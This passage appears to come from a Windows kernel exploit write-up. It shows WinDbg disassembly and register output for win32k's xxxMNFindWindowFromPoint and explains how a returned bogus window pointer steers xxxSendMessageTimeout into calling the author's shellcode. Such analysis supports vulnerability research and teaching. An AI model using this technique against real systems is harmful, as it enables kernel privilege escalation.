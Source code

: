 ```
926395f3 push    edi
926395f5 dec     dword ptr [ebx+0A25E8F0h]
926395fb stc
926395fc call    dword ptr [esi-18h]
926395ff adc     esp,eax
92639601 add     byte ptr [eax],al
92639603 test    eax,eax
92639605 je      win32k!xxxMNFindWindowFromPoint+0x74 (92639612)
1: kd> u 92639603
win32k!xxxMNFindWindowFromPoint+0x65:
92639603 test    eax,eax
92639605 je      win32k!xxxMNFindWindowFromPoint+0x74 (92639612)
92639607 mov     dl,1
92639609 mov     ecx,esi
9263960b call    win32k!HMValidateHandleNoSecure (925c6a9f)
92639610 mov     esi,eax
92639612 test    esi,esi <--------  esi now contains the controlled value
92639614 je      win32k!xxxMNFindWindowFromPoint+0x86 (92639624)


1: kd> r
eax=fffffffb ebx=00000000 ecx=93603a78 edx=93603b78 esi=9271f580 edi=fde46848
eip=92639620 esp=93603a68 ebp=93603a90 iopl=0         nv up ei ng nz na po nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000282
win32k!xxxMNFindWindowFromPoint+0x82:
0008:92639620 leave

```

<br>

---
# **Now we reach inside xxxSendMessageTimeout**
---
<br>

xxxMNFindWindowFromPoint ends up returning fffffffb as a valid PWND Which
invokes xxxSendMessageTimeout, where we need to ensure that all the checks are
passed properly to reach the vulnerable place. i.e. lpwndProc offset of PWND
i.e. 0x60h and make a call to our shellcode.
